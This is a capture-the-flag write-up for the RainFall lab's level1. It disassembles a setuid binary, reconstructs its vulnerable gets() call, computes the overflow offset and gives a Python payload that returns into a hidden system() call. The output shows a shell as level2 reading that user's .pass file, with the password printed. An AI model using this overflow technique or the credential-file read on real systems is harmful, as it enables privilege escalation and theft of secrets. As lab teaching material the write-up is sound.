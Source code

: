 
# Preparations

Entering level1 home directory we see a level1 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and run:

	level1@RainFall:~$ objdump -D -M intel-mnemonic level1 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   ebp
	   0x08048481 <+1>:	mov    ebp,esp
	   0x08048483 <+3>:	and    esp,0xfffffff0
	   0x08048486 <+6>:	sub    esp,0x50
	   0x08048489 <+9>:	lea    eax,[esp+0x10]		;preparations to gets
	   0x0804848d <+13>:	mov    DWORD PTR [esp],eax	;arguments for gets
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>	;call gets
	=> 0x08048495 <+21>:	leave
	   0x08048496 <+22>:	ret

So main will look like:

	int	main(void)
	{
		char buffer[64];
		gets(buffer);
	}

Let's look in the run function:

	(gdb) disass run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   ebp
	   0x08048445 <+1>:	mov    ebp,esp
	   0x08048447 <+3>:	sub    esp,0x18
	   0x0804844a <+6>:	mov    eax,ds:0x80497c0		;getting ready to fwrite, some FILE stream
	   0x0804844f <+11>:	mov    edx,eax			;getting ready to fwrite
	   0x08048451 <+13>:	mov    eax,0x8048570		;getting ready to fwrite
	   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx	;arguments for fwrite
	   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13	;arguments for fwrite
	   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1	;arguments for fwrite
	   0x0804846a <+38>:	mov    DWORD PTR [esp],eax	;arguments for fwrite
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>	;call fwrite
	   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584	;arguments for system
	   0x08048479 <+53>:	call   0x8048360 <system@plt>		;call system
	   0x0804847e <+58>:	leave
	   0x0804847f <+59>:	ret

Let's see some insites by their addresses:

	(gdb) x/20c 0x8048570
		0x8048570:	71 'G'	111 'o'	111 'o'	100 'd'	46 '.'	46 '.'	46 '.'	32 ' '
		0x8048578:	87 'W'	97 'a'	105 'i'	116 't'	32 ' '	119 'w'	104 'h'	97 'a'
		0x8048580:	116 't'	63 '?'	10 '\n'	0 '\000'
	(gdb) x/16c 0x80497c0
		0x80497c0 <stdout@@GLIBC_2.0>:	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'	0 '\000'

Now we need to find the buffer size.

	Breakpoint 4, 0x08048490 in main ()
	(gdb) info frame
	Stack level 0, frame at 0xbffff700:
		 eip = 0x8048490 in main; saved eip 0xb7e454d3
		 Arglist at 0xbffff6f8, args:
		 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
		 Saved registers:
		  ebp at 0xbffff6f8, eip at 0xbffff6fc
		(gdb) nexti
	(gdb) x/80x 0xbffff6a0
		0xbffff6a0:	0xbffff6b0	0x0000002f	0xbffff6fc	0xb7fd0ff4
		0xbffff6b0:	0x080484a0	0x0804978c	0x00000002	0x08048321
		0xbffff6c0:	0xb7fd13e4	0x00000016	0x0804978c	0x080484c1
		0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
		0xbffff6e0:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
		0xbffff6f0:	**0x080484a0**	0x00000000	0x00000000	**0xb7e454d3**
		0xbffff700:	0x00000002	0xbffff794	0xbffff7a0	0xb7fdc858
		0xbffff710:	0x00000000	0xbffff71c	0xbffff7a0	0x00000000
		0xbffff720:	0x08048230	0xb7fd0ff4	0x00000000	0x00000000
	(gdb) print 0xbffff6f0 - 0xbffff6b0
		$23 = 64

And till the saved `eip` there are 64 + 4 * 3 = 76 bytes.

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.

# Exploitation

The function `run` is not called in the binary. But we have buffer that can be overwritten and saved eip address can be changed to the address of the run function. Address of the run function is 0x08048444 = “\x44\x84\x04\x08”:

	(gdb) disass run
	Dump of assembler code for function run:
	   **0x08048444** <+0>:	push   ebp
	   0x08048445 <+1>:	mov    ebp,esp
	   0x08048447 <+3>:	sub    esp,0x18
		...
	   0x0804847e <+58>:	leave
	   0x0804847f <+59>:	ret

Therefore we use the following injection:

	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try

That will help us to break the level.

# Result

	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try
	level1@RainFall:~$ cat /tmp/try - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

Why do we use `cat -` command? Because even if we break the level and call shell, binary is "limited" and can not give us terminal. For that reason we use option of `cat` that helps us to use stdin where shell is called after exploitation.